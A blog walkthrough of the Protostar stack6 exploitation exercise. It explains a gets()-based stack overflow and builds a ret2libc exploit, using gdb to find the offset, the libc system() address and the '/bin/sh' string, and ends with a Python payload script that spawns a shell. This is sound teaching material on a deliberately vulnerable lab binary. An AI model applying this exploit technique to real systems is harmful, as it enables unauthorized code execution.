 ```yaml
---
title: "ROP: ret2libc Attack -Protostar6"
author: "Trevor saudi"
date: 2021-05-12T10:30:13.245Z
lastmod: 2022-05-24T14:32:01+03:00

description: ""


image: "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png" 
images:
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png"
 - "/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/7.jpeg"


aliases:
    - "/rop-ret2libc-attack-protostar6-ab537d59b6a8"

---
```


## Bypassing stack pointer restrictions to gain arbitrary code execution

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/1.png#layoutTextWidth)



[_Protostar_](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/) _is a series of beginner binary exploitation challenges which showcases concepts like basic stack-based buffer overflows, bypassing stack protections and even performing format string attacks. I tried out these challenges as I have close to 0 experience with binary exploitation and wanted to learn some of it and it turned out fun. So let’s get to_ [_protostar6_](https://exploit.education/protostar/stack-six/) _and learn some ret2libc !_

### Source code analysis and some recon

We are given the source code below to protostar6.c

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0); 

  if((ret & 0xbf000000) == 0xbf000000) { 
      printf("bzzzt (%p)\n", ret); 
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

As of previous challenges, our goal is get code execution on the target host which has the compiled binary of this source code. Some of the key things to understand here are:

*   ```gets(buffer) :``` The program will ask as for an input and store it an ```buffer of size 64 bytes.``` Gets is a vulnerable function in C that causes stack overflows
*   ```ret``` : __builtin_return_address(0) - This function checks the current return address on the stack and sets it to a variable ret
*   ```if((ret &amp; 0xbf000000) == 0xbf000000) :``` This check performs a ```bitwise AND``` operation with the ```current address on the stack``` with the hex value ```0xbf000000``` and then compares it with 0xbf000000. Essentially what this means is that, it checks if the first byte in the return address is equal to 0xbf, since the remaining bytes will be converted to 0 in the AND operation. 
```bash
Suppose our return address points to 0xbfffff01, the check is performed as follows

     0xbfffff01 = 10111111 11111111 11111111 00000001  
AND  0xbf000000 = 10111111 00000000 00000000 00000000  
            
The AND operation gives 0xbf000000. So any address beginning with 0xbf will cause the condition to return to true and exit the program`
```
*   ```_exit(0) :``` A system call to exit the function if the operation above gives us an address beginning with 0xbf

### Logic behind the non-executable stack protection

In classic buffer overflows, our goal is usually to overwrite the instruction pointer or the return address of a function with the address at the top of the stack where we put our shell code and get code execution.

But in this case, if we were to overwrite the return address with an address on the stack , the operation fails and the program exits. Let us see why using gdb

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/2.png#layoutTextWidth)


Running the program and viewing how the addresses are mapped in memory we see something interesting. All addresses in the stack begin with 0xbf thus hijacking the control flow and pointing to the stack will fail

### ret2libc Exploit

A ret2libc (return to libc, or return to the C library) attack is one in which the attacker does not require any shellcode to take control of a target, vulnerable process.

“ Every time you write a C program, you use one or the other of the inbuilt functions, like `printf`, `scanf`, `puts` etc. Have you wondered where the definitions of these functions lie? All the standard C functions have been compiled into a single file, named ```the standard C library``` or the `libc`.You can use the `ldd` command to find out which libc is being used by an application. ”

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/3.png#layoutTextWidth)


We can leverage this technique by jumping to the return address of libc . libc has a syscall named `system` that we will use to execute ‘/bin/sh’ and gain shell

### Developing the exploit

1.  We begin by finding the location of the EIP. Generate the crash pattern and supply in gdb

```bash
/usr/bin/msf-pattern_create -l 100  
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

*   Supply the pattern and note down the address in the EIP
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/4.png#layoutTextWidth)


*   Let us get the offset of the pattern 
```bash
/usr/bin/msf-pattern_offset -l 100 -q 0x37634136  
[*] Exact match at offset 80
```

2. Finding the address of libc

*   As noted earlier this can be done using `info proc map` the location of the libc is at `/lib/libc-2.11.2.so` with address `0xb7e97000` . The address in this case does not start with 0xbf hence we can load it onto the stack bypassing the stack protection
![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/5.png#layoutTextWidth)


3. Finding the address of the ```system``` syscall
`(gdb) p system ```&lt;--- p means print```  
$1 = {&lt;text variable, no debug info&gt;} 0xb7ecffb0 &lt;__libc_system&gt;  
(gdb)`

4. Finding the location of the ‘/bin/sh’ within libc
`root@protostar:/opt/protostar/bin# strings -a -t x /lib/libc-2.11.2.so | grep &#34;/bin/sh&#34;  
 11f3bf /bin/sh  

`

*   strings command lists all readable strings
*   a scans through the entire file
*   -t x will print the addresses in hex
*   grep locates the string we specify with ‘/bin/sh’

In summary our exploit will

*   fill up the padding using 80 characters to reach the EIP.
*   Overwrite the EIP using the `system` syscall address which gets loaded onto the stack.
*   Since the stack will return control flow to the program, we still want to be in control of the EIP so we can chain multiple function calls. We cause the EIP to segfault using an invalid address that will be loaded onto the stack.
*   Then we load the address of the location of the ‘/bin/sh’ which will be `the libc address + offset of ‘/bin/sh’` that we found above.
*   Now the next address on the stack will be pointing to the string `‘/bin/sh’ `which system executes as `system(‘/bin/sh’)` and gives a shell

### Putting together a python exploit script

You could use pwntools for this but I will keep the walkthrough simple.
```python3
import struct
## EIP OFFSET
payload = "A"*80
## libc SYSTEM SYSCALL
system = struct.pack("I",0xb7ecffb0)
## Ret address after system
ret = "\x90" * 4
## libc /bin/sh
shell = struct.pack("I",0xb7e97000+0x11f3bf)
print (payload + system+ret+shell)
```
We run the exploit and concatenate with the `cat` command to open an stdin stream so we have access to the shell we get

![image](/posts/2021-05-12_rop-ret2libc-attack-protostar6/images/6.png#layoutTextWidth)


If this walkthrough is not enough, I recommend using other resources to understand the concept of ret2libc as it may not be easy to grasp on the first try.

Happy hacking :)

